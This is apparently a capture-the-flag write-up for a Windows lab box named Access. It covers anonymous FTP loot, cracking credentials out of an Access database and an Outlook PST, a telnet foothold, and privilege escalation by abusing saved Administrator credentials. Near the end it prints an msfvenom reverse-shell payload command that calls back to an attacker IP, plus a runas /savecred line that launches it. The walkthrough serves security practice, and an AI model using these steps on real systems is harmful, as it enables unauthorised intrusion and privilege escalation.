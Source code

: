 # Access
## Information Gathering
#### Ports/Services
21/tcp   ftp     
23/tcp   telnet  
80/tcp   http

## Enumeration
### Nmap scan
```bash
PORT   STATE SERVICE REASON          VERSION
21/tcp open  ftp     syn-ack ttl 127 Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Cant get directory listing: PASV failed: 425 Cannot open data connection.
23/tcp open  telnet  syn-ack ttl 127 Microsoft Windows XP telnetd (no more connections allowed)
80/tcp open  http    syn-ack ttl 127 Microsoft IIS httpd 7.5
|_http-title: MegaCorp
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
```

### 21/tcp
- Microsoft FTPd
- Anonymous FTP login allowed

- My shell would hang whenver I tried listing directory contents
```bash
ftp> ls
229 Entering Extended Passive Mode (|||49167|)
```
- To fix this, use the `passive` and then `binary` command


- There are two files
	- backup.mdb
	- Access Control.zip

#### backup.mdb
- Enumerate file type
```bash
$ filie backup.mdb
backup.mdb: Microsoft Access Database
```
- Using mdb-tools to enumrate this file further
- List of tables
```bash
$ mdb-queries backup.mdb 
acc_antiback 查询
```

- The following gives you all the tables in the database
```bash
$ mdb-tables backup.mdb | sed -z 's/\s/\n/g'
```

- I also looked at the schema for every table and search for username and password fields
```bash
mdb-schema backup.mdb | grep -A 5 -B 5 "password"
CREATE TABLE [auth_user]
 (
        [id]                    Long Integer, 
        [username]                      Text (50), 
        [password]                      Text (50), 
        [Status]                        Long Integer, 
        [last_login]                    DateTime, 
        [RoleID]                        Long Integer, 
        [Remark]                        Memo/Hyperlink (255)
);
```
- The `auth_user` table looks promising
- Query the `auth_user`
```bash 
$ mdb-json backup.mdb auth_user | jq
{
  "id": 25,
  "username": "admin",
  "password": "admin",
  "Status": 1,
  "last_login": "08/23/18 21:11:47",
  "RoleID": 26
}
{
  "id": 27,
  "username": "engineer",
  "password": "access4u@security",
  "Status": 1,
  "last_login": "08/23/18 21:13:36",
  "RoleID": 26
}
{
  "id": 28,
  "username": "backup_admin",
  "password": "admin",
  "Status": 1,
  "last_login": "08/23/18 21:14:02",
  "RoleID": 26
}
```

- Using `access4u@security` successfully decompresses the `Access Control.zip`
- This gives us `Access Control.pst` which is a `Microsoft Outlook email folder`
- I use `readpst` to convert `Access Control.pst` to `Access Control.mbox` which is HTML document email. Reading the contents
```
Hi there,

The password for the “security” account has been changed to 4Cc3ssC0ntr0ller.  Please ensure this is passed on to your engineers.

Regards,
John
```

- Using the credentials `security:4Cc3ssC0ntr0ller` gives you foothold as `access\security`

### 23/tcp
- Microsoft Windows XP telnetd

### 80/tcp
- Software
	- Microsoft IIS httpd 7.5
	- ASP.NET

- Landing on root page has an image with some text:
	- LON-MC6


## Exploitation
- Using the credentials `security:4Cc3ssC0ntr0ller` for the telnet server gives you foothold

## Privilege Escalation
### Enumeration
There are stored Administrator credentials on this box:
```
cmdkey /list
Currently stored credentials:

    Target: Domain:interactive=ACCESS\Administrator
                                                       Type: Domain Password
    User: ACCESS\Administrator
```
Generate a reverse shell payload and transfer onto the victim machine:
```bash
msfvenom -p windpws/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f exe -o reverse.exe
```
Run the payload using the stored Administrator credentials
```
runas /savecred /user:ACCESS\Administrator "C:\Users\security\Documents\reverse.exe"
```
This should spawn a reverse shell as the Administrator.